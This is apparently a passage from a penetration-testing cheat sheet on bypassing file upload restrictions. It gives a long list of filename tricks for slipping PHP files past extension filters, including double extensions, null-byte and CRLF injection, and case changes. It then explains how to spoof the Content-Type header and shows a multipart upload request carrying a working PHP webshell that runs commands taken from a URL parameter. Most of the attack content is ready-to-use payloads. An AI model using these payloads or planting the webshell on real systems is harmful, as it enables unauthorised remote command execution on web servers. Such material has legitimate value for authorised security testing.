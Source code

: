 ```txt
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.phar

exploit.jpg.php
exploit.jpeg.php
exploit.png.php
exploit.gif.php
exploit.pdf.php

exploit.php.
exploit.php.jpg
exploit.php.jpeg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg

exploit.PHP
exploit.pHp

exploit.php/
exploit.php//
exploit.php\
exploit.php#
exploit..php
```

<br /><br />

## Bypass Content-Type Validation

We might be able to bypass the content type validation by modifying that.  
For example, assume that we want to upload **`PHP`** file to execute **webshell** or **reverse shell**, but `PHP` files are rejected by the website.  
In this situation, we might be able to bypass the validation by modifying the **"Content-Type"** from **"application/x-php"** to other types such as **"image/jpeg"**, **"plain/text"** etc.  
Here is the example.

```html
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg <!-- Change this. Try other types such as image/gif, plain/text, etc. -->

<?php echo system($_GET['cmd']); ?>

------abcdefghijk
```
